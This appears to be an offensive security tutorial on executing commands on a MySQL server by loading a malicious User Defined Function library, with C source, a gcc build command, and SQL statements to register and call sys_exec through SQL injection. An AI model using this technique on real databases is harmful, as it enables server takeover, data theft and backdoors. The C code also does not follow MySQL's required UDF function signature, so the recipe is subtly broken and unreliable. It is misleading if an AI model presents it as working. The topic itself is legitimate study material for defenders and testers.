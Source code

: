 ```yaml
---
title: Execute Commands via MySQL UDF Library
description: Learn to exploit MySQL User Defined Functions for command execution.
keywords:
- MySQL
- UDF Library
- command execution
- user defined functions
- security vulnerability
- sys_exec
- malicious UDF
---
```


# COMMAND - UDF Library

## Context

This article explores the technique of executing commands on a MySQL server through the use of User Defined Functions (UDF) libraries. The objective is to understand how attackers can exploit this method to execute arbitrary commands if the server is not properly secured. This topic assumes knowledge of user-defined functions and general command execution techniques.

## Theory

### User Defined Functions (UDF) in MySQL

User Defined Functions (UDFs) are custom functions that developers can add to MySQL servers to extend their features beyond what is available natively. These functions are implemented in a shared library and then linked to the MySQL server. Typically, UDFs are used to perform complex calculations or extend functionality. However, if the MySQL server is not properly configured, UDFs can be leveraged to execute arbitrary system-level commands.

#### Vulnerability Model

The security risk lies in the ability to upload and execute custom UDFs. If the attacker gains access to upload files and creates a UDF that includes malicious code, they can execute commands on the server. This vulnerability arises particularly in environments where user access control and file permissions are not stringently managed.

### Command Execution via UDF

To execute a command using a UDF, an attacker typically follows a sequence of steps:

1. **Upload a Malicious UDF Library:** The attacker compiles a shared object library containing the malicious UDF and uploads it to a location accessible by the MySQL server.

2. **Invoke the UDF:** Once the library is in place, the attacker can create a MySQL function linked to this library and invoke it to execute system commands.

## Practice

### Command Execution via UDF Library

This section explains how to execute commands on a MySQL server using a UDF library. It details the necessary steps to achieve command execution if the server's security controls are inadequate.

- First, write a C program that implements the desired system execution function. Here is a simple example of the C code (`udf.c`):

  ```c
  #include <stdlib.h>

  int sys_exec(const char *command) {
      return system(command);
  }
  ```

- Compile this code into a shared object file that can be loaded by the MySQL server:

  ```bash
  gcc -shared -o libudf.so -fPIC udf.c
  ```

- Copy or upload the compiled `libudf.so` file to a directory where MySQL can load it. Commonly, this would be a directory MySQL has write permissions to such as `/usr/lib/mysql/plugin`.

- Create a new UDF via the SQLi using the uploaded shared object:

  ```bash
  CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'libudf.so';
  ```

- You can now execute system commands via the sqli using the new UDF. For instance, to check the current user ID, you can execute:

  ```bash
  SELECT sys_exec('id');
  ```

#### Result

Executing the steps above will allow you to execute any system-level command on the MySQL server where the UDF was created. Through the UDF, attackers gain the ability to manipulate or extract data, create persistent backdoors, or further exploit the network.

## Tools

- **gcc**: A compiler to create shared object files from C source code.
- **mysql client**: Command-line tool to connect to the MySQL server and execute SQL queries.
